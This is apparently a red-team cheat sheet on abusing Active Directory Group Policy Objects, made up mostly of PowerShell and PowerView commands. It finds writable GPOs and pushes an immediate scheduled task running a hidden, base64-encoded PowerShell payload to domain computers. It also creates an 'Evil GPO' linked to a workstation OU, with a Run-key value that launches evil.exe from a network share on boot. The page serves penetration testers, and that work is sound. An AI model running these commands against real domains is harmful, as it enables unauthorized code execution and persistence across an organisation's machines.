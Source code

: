 ```yaml
---
description: Group Policy Objects
---
```


# GPO Abuse

* [https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)
* [https://wald0.com/?p=179](https://wald0.com/?p=179)
* [https://github.com/EvotecIT/GPOZaurr](https://github.com/EvotecIT/GPOZaurr)

Force GPO update on all domain computers:

```
PS > Get-ADComputer -Filter * | % {Invoke-GPUpdate -Computer $_.name -Force -RandomDelayInMinutes 0}
```




## Hunt for GPOs

List all GPOs in the domain:

```
PS > .\SharpView.exe Get-DomainGPO -Properties displayName
```

List GPOs applied to a specifiec domain user or computer:

```
PS > .\SharpView.exe Get-DomainGPO -UserIdentity snovvcrash -Properties DisplayName
PS > .\SharpView.exe Get-DomainGPO -ComputerIdentity WS01 -Properties DisplayName
Or
Cmd > gpresult /r /user snovvcrash [/h gpos-snovvcrash.html]
Cmd > gpresult /r /s WS01 [/h gpos-ws01.html]
```

Search for writable GPOs for the `Domain Users` security group:

```
PV3 > Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq ((Get-DomainGroup "Domain Users" | select objectSid).objectSid)}
PV3 > Get-DomainGPO '{<GPO_GUID>}'
Or
PS > Get-GPO -Guid <GPO_GUID>
```




## Permissions Abuse



### Recon

Show all GPOs in the domain:

```
PV3 > Get-NetGPO -Domain megacorp.local | select cn,displayname
```

Search for GPOs that are controlled by the `MEGACORP\PolicyAdmins` group:

```
PV3 > Get-NetGPO | % {Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "MEGACORP\PolicyAdmins"}
```

List computers that are affected by vulnerable (modifiable) GPO:

```
PV3 > Get-NetOU -GUID "00ff00ff-00ff-00ff-00ff-00ff00ff00ff" | % {Get-NetComputer -ADsPath $_}
```

Note: if I list all OUs affected by this GPO with PowerView, there will be no domain shown (like in BloodHound), but in Group Policy Manager we can see that it is presented.

Check if computer settings are enabled for this GPO (and enable them if not):

* [https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801](https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801)

```
PS > Get-Gpo VULN.GPO.NAME
PS > Set-GpoStatus VULN.GPO.NAME -Status AllSettingsEnabled
```

List users that can create a GPO and link it to a specific OU:

```
PV3 > Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=megacorp,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -match "CreateChild" } | select objectDN,securityIdentifier | fl
PV3 > Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select objectDN,securityIdentifier | fl
```



### GPOImmediateTask

* [PowerView3.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) [(New-GPOImmediateTask)](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)

Create a task with a PowerShell payload:

```
$ echo 'sc -path "c:\\windows\\temp\\poc.txt" -value "GPO Abuse PoC..."' | iconv -t UTF-16LE | base64 -w0; echo
cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=
PS > New-GPOImmediateTask -TaskName Pentest -GPODisplayName VULN.GPO.NAME -CommandArguments '-NoP -NonI -W Hidden -Enc cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=' -Force
```

Clean up:

```
PS > New-GPOImmediateTask -GPODisplayName VULN.GPO.NAME -Remove -Force
```

Check when GP was last applied:

```
Cmd > GPRESULT /R
```



### GPPrefRegistryValue

Check if GPMC is installed and if it's not, install it as a Windows Feature (requires elevation):

```
PS > Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
PS > Install-WindowsFeature –Name GPMC
```

Create an evil GPO and link it to the target OU (will be visible in the management console):

```
PS > New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=megacorp,DC=local"
```

Locate a writable network share:

```
PV3 > Find-DomainShare -CheckShareAccess
```

Prepare your payload, put it to the network share and create an autorun value in the evil GPO to run the payload on boot/logon:

```
PS > Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min /c \\srv01\SoftwareShare\evil.exe" -Type ExpandString
```




## WMI Filters

- [https://rastamouse.me/ous-and-gpos-and-wmi-filters-oh-my/](https://rastamouse.me/ous-and-gpos-and-wmi-filters-oh-my/)




## Tools



### SharpGPOAbuse

- [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)



### pyGPOAbuse

- [https://github.com/Hackndo/pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)
